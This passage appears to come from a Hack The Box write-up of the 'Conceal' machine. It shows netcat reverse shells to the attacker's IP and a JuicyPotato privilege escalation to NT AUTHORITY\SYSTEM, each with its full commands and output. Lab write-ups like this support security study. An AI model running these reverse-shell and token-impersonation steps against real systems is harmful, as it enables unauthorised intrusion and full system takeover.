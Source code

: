 To get a proper shell, we can upload `nc.exe` and run it with `C:\inetpub\wwwroot\upload\nc.exe -e cmd.exe 10.10.14.23 80`

```
# nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.116] 49684
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\SysWOW64\inetsrv>whoami
conceal\destitute

C:\Windows\SysWOW64\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Running `whoami /priv`, we see that the rights for the user will allow us to use the RottenPotato exploit to elevate to NT AUTORITY/SYSTEM.

We need to pick the appropriat CLSID for our OS so first we'll check which Windows version is running:

```
C:\inetpub\wwwroot\upload>systeminfo
systeminfo

Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
```

Next, we check the [https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) site for a list of CLSID for the OS.

We'll use `{8BC3F05E-D86B-11D0-A075-00C04FB68820}`, for no particular reason then execute JuicyPotato and run another netcat to spawn a new reverse shell for us.

```
C:\inetpub\wwwroot\upload>juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1234
......
[+] authresult 0
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\inetpub\wwwroot\upload>
```
